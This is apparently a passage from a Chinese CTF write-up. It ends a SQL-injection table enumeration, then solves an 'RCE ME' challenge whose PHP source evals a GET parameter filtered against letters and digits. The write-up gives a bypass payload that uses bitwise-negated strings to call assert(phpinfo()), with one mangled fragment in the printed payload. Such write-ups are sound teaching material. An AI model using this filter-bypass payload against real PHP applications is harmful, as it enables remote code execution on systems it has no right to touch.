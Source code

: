 ```

# get_database()

# get_tabls('geek') #F1naI1y,Flaaaaag
#
# get_columns('F1naI1y') # id,username,password
# get_columns('Flaaaaag') # id,fl4gawsl

# get_data('fl4gawsl','Flaaaaag')
get_data('id,username,password','F1naI1y')
```

跑出来有两个表F1naI1y,Flaaaaag

F1naI1y表还是只有id,username,password

Flaaaaag表包括id,fl4gawsl

### RCE ME

打开题目有源码

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){  
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

 传入一个code参数，长度不能大于40，不能包含大小写字母和数字

可以使用取反或者异或拼凑函数

```
?code=$_=(~?>);$$_{%27__%27}($$_{%27_%27});&_=phpinfo()&__=assert
```

```
%A0%AF%B0%AC%AB是_GET的取反的值，$$_{%27__%27}($$_{%27_%27})`就相当于 $_GET{'__'}($_GET{'_'})   联合起来就是assert(phpinfo())
```

